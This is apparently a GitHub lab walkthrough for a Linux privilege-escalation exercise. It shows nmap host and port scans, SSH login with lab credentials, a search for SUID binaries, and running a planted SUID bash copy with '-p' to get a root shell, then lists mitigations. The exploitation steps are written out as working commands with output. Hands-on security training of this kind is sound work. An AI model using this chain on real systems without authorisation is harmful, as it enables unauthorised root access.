




# 🔓 Privilege Escalation – SUID Bash Exploit

This scenario demonstrates how an attacker can escalate from a low-privileged user to root by abusing a misconfigured SUID `bash` binary found on the system.

---

## 🛰️ Step 1: Discover the Target

We begin by identifying the target machine’s IP on the local network.

From the **attacker machine (Kali Linux)**:

### 🔍 1.1 Perform a ping sweep

```bash
$ sudo nmap -sn 10.10.10.0/24
```
This will scan the entire /24 subnet to detect live hosts.

### We discovered Target machine IP Address

```bash
Nmap scan report for 10.10.10.135
Host is up (0.0010s latency).
MAC Address: 00:0C:29:47:C5:07 (VMware)
```
This confirms the target VM is online at 10.10.10.135.

## 🔍 Step 2: Scan for Open Ports
Once the target IP is known, scan for open ports to identify entry points.
## 2.1 Run TCP SYN Scan on Port 22 (SSH)
```bash
$ nmap -sS -p 22 10.10.10.135
```
## SSH Port is Open
```bash
PORT   STATE SERVICE
22/tcp open  ssh
```
Port 22 is open — meaning we can attempt an SSH connection

## 🔐 Step 3: SSH Access as Low-Privileged User

Assuming valid credentials for a low-privileged user were obtained (victim:attacker123), we attempt an SSH login:

```bash
ssh victim@10.10.10.135
```
Once connected, verify our current identity:
```bash
victim@sam-vm:~$ whoami
victim

victim@sam-vm:~$ id
uid=1001(victim) gid=1001(victim) groups=1001(victim)
```
We confirm:

- The user victim is not part of the sudo group

- No elevated privileges are present

➡️ Next, we enumerate the system for misconfigurations or vulnerable binaries.

## 🔍 Step 4: Enumerate SUID Binaries
We search for files with the SUID permission bit set (4000), which could allow privilege escalation:

```bash
victim@sam-vm:~$ find / -perm -4000 -type f 2>/dev/null
```
Among the results, we spot a suspicious one:

```bash
victim@sam-vm:~$ ls -l /tmp/rootbash
-rwsr-sr-x 1 root root 1396520 Jul 10 13:03 /tmp/rootbash
```
### ⚠️ What makes this dangerous?
- The s in -rwsr-sr-x means it runs with the file owner’s privileges (which is root)

- It's a copy of /bin/bash, placed in /tmp, and world-executable

#### This means any user can run it and get root privileges.

## 🚀 Step 5: Exploit the SUID Bash Binary

Launch it with the -p flag to preserve SUID root privileges:
```bash
victim@sam-vm:~$ /tmp/rootbash -p
```
Now inside the new shell:

```bash
rootbash-5.1# whoami
root

rootbash-5.1# id
uid=0(root) gid=0(root) groups=0(root)
```
🎉 We have successfully escalated from a limited user (victim) to root.

---

## Post-Exploitation

Clean up:
```bash
rootbash-5.1# rm /tmp/rootbash
```

##  Mitigation

- Never assign the SUID bit to binaries like bash, python, or other shells

- Regularly audit SUID binaries:
  ```bash
     $ find / -perm -4000 -type f
     ```
- Secure and monitor /tmp for unauthorized binaries

## 📸 Screenshots!

### nmap Ping Sweep


### SSH-Login 


### SUID Bash Found


### Root Access Confirmed


---

## Conclusion

In this lab, we demonstrated a complete exploitation chain starting from reconnaissance to gaining root access using a misconfigured SUID Bash binary. This is a classic example of how a small misconfiguration can lead to full system compromise.


## Credits

This walkthrough is part of the **Linux Privilege Escalation Lab Series** created for hands-on learning.

👨‍💻 Lab Author: [Syed Ata Ur Rahaman](https://github.com/Ataur1502)  
🔗 GitHub Repository: [linux-privesc-lab](https://github.com/Ataur1502/linux-privesc-lab)  
🛠️ Tools Used: `nmap`, `ssh`, `find`, `bash`, `Linux VM`, `VMware`  
🎯 Target: Ubuntu VM with intentional misconfigurations


## 📢 Disclaimer

This lab is intended **strictly for educational and ethical use**. Always get proper authorization before testing any system.

---


